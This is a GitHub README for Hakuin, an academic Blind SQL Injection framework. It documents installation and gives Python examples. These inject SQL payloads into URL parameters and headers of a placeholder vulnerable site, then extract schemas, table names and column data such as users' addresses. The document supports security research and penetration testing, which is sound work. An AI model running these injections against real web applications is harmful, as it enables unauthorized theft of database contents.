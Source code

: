<p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin utilizes a variety of optimization methods, such as pre-trained and adaptive language models, opportunistic guessing, parallelism and more.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```
Developers should install the package locally and set the `-e` flag for editable mode:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip3 install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import aiohttp
from hakuin import Requester

class StatusRequester(Requester):
    async def request(self, ctx, query):
        r = await aiohttp.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    async def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = await aiohttp.get(f'http://vuln.com/', headers=headers)
        return 'found' in await r.text()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Hakuin currently supports `SQLite`, `MySQL`, `PSQL` (PostgreSQL), and `MSSQL` (SQL Server) DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting SQLite/MySQL/PSQL/MSSQL
```python
import asyncio
from hakuin import Extractor, Requester
from hakuin.dbms import SQLite, MySQL, PSQL, MSSQL

class StatusRequester(Requester):
    ...

async def main():
    # requester:    Use this Requester
    # dbms:         Use this DBMS
    # n_tasks:      Spawns N tasks that extract column rows in parallel 
    ext = await Extractor(requester=StatusRequester(), dbms=SQLite(), n_tasks=1)
    ...

if __name__ == '__main__':
    asyncio.get_event_loop().run_until_complete(main())
```

Now that eveything is set, you can start extracting DB schemas.

##### Example 1 - Extracting DB Schemas
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained models
schema = await ext.extract_schema(strategy='model')
```

##### Example 2 - Extracting only Table/Column Names
```python
tables = await ext.extract_table_names(strategy='model')
columns = await ext.extract_column_names(table='users', strategy='model')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Extracting Generic Columns
```python
# text_strategy:    Use this strategy if the column is text
res = await ext.extract_column(table='users', column='address', text_strategy='dynamic')
```

##### Example 2 - Extracting Textual Columns
```python
# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = await ext.extract_column_text(table='users', column='address', strategy='dynamic')
```

##### Example 3 - Extracting Integer Columns
```python
res = await ext.extract_column_int(table='users', column='id')
```

##### Example 4 - Extracting Float Columns
```python
res = await ext.extract_column_float(table='products', column='price')
```

##### Example 5 - Extracting Blob (Binary Data) Columns
```python
res = await ext.extract_column_blob(table='users', column='id')
```

More examples can be found in the `tests` directory.


## Using Hakuin from the Command Line
Hakuin comes with a simple wrapper tool, `hk.py`, that allows you to use Hakuin's basic functionality directly from the command line. To find out more, run:
```
python3 hk.py -h
```


## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
